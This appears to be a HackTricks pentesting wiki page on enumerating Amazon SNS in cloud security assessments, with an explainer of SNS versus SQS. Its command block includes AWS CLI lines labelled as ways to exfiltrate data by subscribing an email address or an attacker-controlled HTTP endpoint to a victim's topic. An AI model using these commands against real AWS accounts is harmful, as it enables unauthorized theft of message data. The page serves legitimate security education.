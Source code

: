 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) is described as a **fully managed messaging service**. It supports both **application-to-application** (A2A) and **application-to-person** (A2P) communication types.

Key features for A2A communication include **publish/subscribe (pub/sub) mechanisms**. These mechanisms introduce **topics**, crucial for enabling high-throughput, **push-based, many-to-many messaging**. This feature is highly advantageous in scenarios that involve distributed systems, microservices, and event-driven serverless architectures. By leveraging these topics, publisher systems can efficiently distribute messages to a **wide range of subscriber systems**, facilitating a fanout messaging pattern.

### **Difference with SQS**

**SQS** is a **queue-based** service that allows point-to-point communication, ensuring that messages are processed by a **single consumer**. It offers **at-least-once delivery**, supports standard and FIFO queues, and allows message retention for retries and delayed processing.\
On the other hand, **SNS** is a **publish/subscribe-based service**, enabling **one-to-many** communication by broadcasting messages to **multiple subscribers** simultaneously. It supports **various subscription endpoints like email, SMS, Lambda functions, and HTTP/HTTPS**, and provides filtering mechanisms for targeted message delivery.\
While both services enable decoupling between components in distributed systems, SQS focuses on queued communication, and SNS emphasizes event-driven, fan-out communication patterns.

### **Enumeration**

```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
    --topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
    --message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
    --topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
    --protocol email \
    --notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
    --protocol http \
    --notification-endpoint http://<attacker>/ \
    --topic-arn <arn>
```

> [!CAUTION]
> Note that if the **topic is of type FIFO**, only subscribers using the protocol **SQS** can be used (HTTP or HTTPS cannot be used).
>
> Also, even if the `--topic-arn` contains the region make sure you specify the correct region in **`--region`** or you will get an error that looks like indicate that you don't have access but the problem is the region.

#### Unauthenticated Access

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### Privilege Escalation

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### Post Exploitation

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### Persistence

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## References

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}





